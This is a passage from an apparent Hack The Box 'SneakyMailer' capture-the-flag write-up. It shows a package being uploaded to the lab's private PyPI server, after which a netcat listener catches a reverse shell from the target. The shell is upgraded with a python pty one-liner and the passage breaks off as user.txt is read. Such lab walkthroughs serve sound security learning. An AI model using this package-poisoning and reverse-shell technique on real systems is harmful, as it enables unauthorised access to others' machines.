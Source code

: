 <h1>Executing the package</h1>  
<blockquote><p>Setting the path to current dir</p></blockquote>
<pre>developer@sneakymailer:/tmp/10.10.17.16:8080/pypi-pkg<span class="nv">$ HOME</span><span class="o">=</span><span class="sb">`</span><span class="nb">pwd</span><span class="sb">`</span>
</pre>  
<blockquote><p>Running setup.py</p></blockquote>
<pre>developer@sneakymailer:~<span class="nv">$ </span>python3 setup.py sdist register <span class="nt">-r</span> <span class="nb">local </span>upload <span class="nt">-r</span> <span class="nb">local</span>
&lt;n3 setup.py sdist register <span class="nt">-r</span> <span class="nb">local </span>upload <span class="nt">-r</span> <span class="nb">local
</span>running sdist
running egg_info
creating sample.egg-info
writing sample.egg-info/PKG-INFO
writing dependency_links to sample.egg-info/dependency_links.txt
writing requirements to sample.egg-info/requires.txt
writing top-level names to sample.egg-info/top_level.txt
writing manifest file <span class="s1">'sample.egg-info/SOURCES.txt'</span>
reading manifest file <span class="s1">'sample.egg-info/SOURCES.txt'</span>
writing manifest file <span class="s1">'sample.egg-info/SOURCES.txt'</span>
warning: sdist: standard file not found: should have one of README, README.rst, README.txt, README.md

running check
creating sample-1.2.0
creating sample-1.2.0/sample.egg-info
copying files to sample-1.2.0...
copying setup.py -&gt; sample-1.2.0
copying sample.egg-info/PKG-INFO -&gt; sample-1.2.0/sample.egg-info
copying sample.egg-info/SOURCES.txt -&gt; sample-1.2.0/sample.egg-info
copying sample.egg-info/dependency_links.txt -&gt; sample-1.2.0/sample.egg-info
copying sample.egg-info/requires.txt -&gt; sample-1.2.0/sample.egg-info
copying sample.egg-info/top_level.txt -&gt; sample-1.2.0/sample.egg-info
Writing sample-1.2.0/setup.cfg
creating dist
Creating <span class="nb">tar </span>archive
removing <span class="s1">'sample-1.2.0'</span> <span class="o">(</span>and everything under it<span class="o">)</span>
running register
Registering sample to http://pypi.sneakycorp.htb:8080
Server response <span class="o">(</span>200<span class="o">)</span>: OK
WARNING: Registering is deprecated, use twine to upload instead <span class="o">(</span>https://pypi.org/p/twine/<span class="o">)</span>
running upload
Submitting dist/sample-1.2.0.tar.gz to http://pypi.sneakycorp.htb:8080
Server response <span class="o">(</span>200<span class="o">)</span>: OK
WARNING: Uploading via this <span class="nb">command </span>is deprecated, use twine to upload instead <span class="o">(</span>https://pypi.org/p/twine/<span class="o">)</span>
</pre>  

<h1>User flag!.</h1>  
<pre>➜  sneakymailer rlwrap nc <span class="nt">-nlvp</span> 2345                                   
Ncat: Version 7.80 <span class="o">(</span> https://nmap.org/ncat <span class="o">)</span>
Ncat: Listening on :::2345
Ncat: Listening on 0.0.0.0:2345
Ncat: Connection from 10.10.10.197.
Ncat: Connection from 10.10.10.197:45674.
python <span class="nt">-c</span> <span class="s2">"import pty;pty.spawn('/bin/bash')"</span>
low@sneakymailer:/<span class="nv">$ </span><span class="nb">whoami
whoami
</span>low
</pre>  
<pre>low@sneakymailer:~<span class="nv">$ </span><span class="nb">cat </span>user.txt